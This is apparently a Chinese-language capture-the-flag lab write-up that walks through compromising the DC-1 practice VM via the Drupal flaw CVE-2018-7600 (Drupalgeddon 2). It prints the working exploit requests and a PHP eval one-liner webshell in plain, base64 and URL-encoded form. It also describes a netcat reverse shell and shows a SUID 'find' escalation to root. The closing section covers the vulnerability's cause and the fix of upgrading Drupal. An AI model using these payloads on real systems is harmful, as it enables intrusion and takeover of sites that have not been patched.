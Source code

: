 

> 环境

- Kali Linux
- DC-1靶场

---



## 信息收集

> **1.主机发现**  
>
> 使用nmap进行扫描 【-sP  ping扫描】

![image-20240403181921391](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403181921391.png)

如上图，我们可以得到dc-1主机的IP；

> **2.端口扫描**
>
> 使用nmap进行端口扫描 【-A全面扫描， -Pn无ping扫描， -p-所以端口，-sS半连接扫描， -T4扫描速度4档】

![image-20240403182130648](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403182130648.png)

我们发现，该主机开了22端口，所以可以进行ssh远程，还开通了80端口，运行了Apache httpd服务，我们可以访问一下httpd

![image-20240403202358841](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403202358841.png)

---

## 漏洞发现

通过使用AWVS漏洞扫描工具，可以发现，该web服务有非常严重的RCE漏洞，该漏洞编号为【CVE-2018-7600】

![image-20240403202709601](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403202709601.png)

![image-20240403195749557](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403195749557.png)

## 漏洞验证

由于扫描工具会有误报和漏报的风险，所以需要我们来手动验证漏洞是否真的存在；

![image-20240403195821983](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403195821983.png)

我们使用BP来截取请求，并将其发送到重发模块，将请求更改为POST方式；

> 根据AWVS的提示，构建第一次请求，目的是执行whoami

```
/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=whoami
form_id=user_pass&_triggering_element_name=name
```

![image-20240403193523941](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403193523941.png)

> 获取第一次请求得到的form_build_id值，重新构建请求，再次提交

```
/?q=file/ajax/name/%23value/form-AO-ame23pCsfvN8cP5oRIl9dhiPY7wc2NHuksM9W0Cc
form_build_id=form-AO-ame23pCsfvN8cP5oRIl9dhiPY7wc2NHuksM9W0Cc
```

![image-20240403193619948](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403193619948.png)

可以看到`whoami`命令成功执行，并显示结果，故确实存在该RCE漏洞，漏洞验证成功；



## 漏洞利用

### 构建木马

既然存在RCE漏洞，那么我们就可以通过上传木马获取该服务的webshell

> 构建一句话木马

一句话木马主体：

```
<?php @eval($_REQUEST[cmd])?>
```

将其进行base64编码:

```
PD9waHAgQGV2YWwoJF9SRVFVRVNUW2NtZF0pPz4=
```

构建完整命令，创建一句话木马文件 

```
echo "PD9waHAgQGV2YWwoJF9SRVFVRVNUW2NtZF0pPz4="|base64 -d|tee ./yjh.php
```

由于是url传输，所以需要进行url编码

```
echo%20%22PD9waHAgQGV2YWwoJF9SRVFVRVNUW2NtZF0pPz4%3D%22%7Cbase64%20-d%7Ctee%20.%2Fyjh.php
```

> 提交

![image-20240403194504532](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403194504532.png)

![image-20240403194611545](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403194611545.png)

可以看到，按照漏洞验证的步骤进行命令执行，一句话木马已经成功创建

![image-20240403194810493](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403194810493.png)

---

> 使用中国蚁剑进行连接

![image-20240403195432205](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403195432205.png)

可以看到，已经完美的获取了目标的webshell；

---

### 反弹shell

> 反弹shell  -建立shell通道 使用netcat

![image-20240403200400442](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403200400442.png)

既然目标主机存在netcat，并且有-e的参数，所以可以直接建立shell通道；

1.攻击机侦听1314端口；

2.目标机建立到攻击机的TCP连接，并在连接建立后在目标主机上打开一个Bash shell，允许用户执行命令。

![image-20240403200558859](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403200558859.png)

可以看到，shell通道已经打通；

### 权限提升 --SUID提权

- 提权前提是持久化连接，由于我们已经做好了反弹shell，所以可以直接进行权限提升；
- SUID是Linux系统中的一种特殊权限，在一个可执行文件拥有SUID权限时，当该文件被执行时，这个进程会以文件所有者的身份来运行，而不是以执行者自身的身份来运行。

---

> 1.找到具有SUID权限的文件:
>
> - 可以使用命令`find / -perm -u=s -type f 2>/dev/null`来查找这些文件。

```sh
find / -perm -u=s 2>/dev/null #-perm 权限;  -u=s 最少有sid权限；
```

> 2.find 提权:
>
> - 通过 `find / -perm -u=s` 找到这些具有 SUID 权限的文件后，可以在其中一个文件上执行 `/bin/sh` 命令，从而启动一个具有管理员权限的 Shell。

```sh
mkdir ww
find ww -exec '/bin/sh' \; #新创建的 ww 目录中执行 "/bin/sh"，也就是启动一个新的Shell
```

![image-20240403201343808](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403201343808.png)

![image-20240403201527854](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240403201527854.png)

可以看到，执行`whoami`返回是是root，可知提权成功；

---



## 漏洞信息

> 漏洞描述

CVE-2018-7600，也被称为Drupalgeddon 2，是Drupal核心中的一个高危安全漏洞。该漏洞影响Drupal 6、7和8版本，被认为是Drupal历史上最严重的漏洞之一。CVE-2018-7600的严重性在于它允许远程攻击者利用漏洞执行任意代码，从而完全控制受感染的Drupal网站。

> 漏洞原理

该漏洞的主要原因是Drupal核心中的输入验证不足，使得攻击者可以构造特制的HTTP请求，绕过访问控制、验证和过滤机制，进而执行恶意代码。攻击者可以利用这个漏洞在Drupal网站中执行各种操作，包括但不限于安装后门、窃取敏感信息、篡改网站内容等。

> 漏洞防御

升级Drupal核心：在漏洞被披露后，Drupal社区发布了修复版本。

---



